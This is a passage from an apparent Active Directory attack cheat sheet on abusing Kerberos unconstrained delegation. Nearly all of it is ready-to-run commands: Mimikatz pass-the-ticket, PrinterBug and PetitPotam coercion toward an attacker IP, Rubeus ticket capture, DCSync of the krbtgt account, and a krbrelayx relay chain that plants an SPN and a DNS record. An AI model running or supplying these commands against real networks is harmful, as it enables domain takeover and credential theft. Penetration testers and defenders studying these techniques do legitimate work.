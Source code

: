 * Reuse the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

#### Printer bug / PetitPotam

To force another computer to connect to the compromised machine in UD, and capture the TGT by monitoring:

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

On the attacker machine run :

```powershell
#PrinterBug
.\MS-RPRN.exe \\<target>.domain.local \\unconstrainedMachine.domain.local

#PetitPotam
.\PetitPotam.exe attacker_ip <target>.domain.local
```

```powershell
.\Rubeus.exe ptt /ticket:...

#DCSync with the dc TGT
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"' 
```

#### Any principal in Unconstrained Delegation

If we have enough rights against a principal (computer or user) in UD to add a **SPN** on it and **know its password**, we can try to use it to retrieve a machine account password from an authentication coercion.

* Add a new DNS record on the domain that point to our IP
* Add a SPN on the principal that point to the DNS record and change its password (will be usefull for the tool `krbrelayx.py` to extract the TGT from the ST)
* Trigger the authentication and grab the ST (and TGT in it) on **krbrelayx** that is listenning for it

Since the principal is in **Unconstrained Delegation**, when the machine account will send the **ST** to the SPN it will automatically add a **TGT** in it, and because the SPN is pointing to us with the DNS record, we can retrieve the ST, decipher the ciphered part with the user password (the SPN is setup on the user, so the ST is ciphered with his password), and retrieve the TGT.

```powershell
#Add the SPN with the Microsoft module
Set-ADUser -Identity <principal_in_UD> -ServicePrincipalName @{Add='HOST/test.domain.local'}

#Create the DNS record
Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local

#Run krbrelayx with the hash of the password setup on the UD user
python3 krbrelayx.py -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip dc.domain.local

#Trigger the coercion
.\PetitPotam.exe <attacker_ip> <target_IP>
```
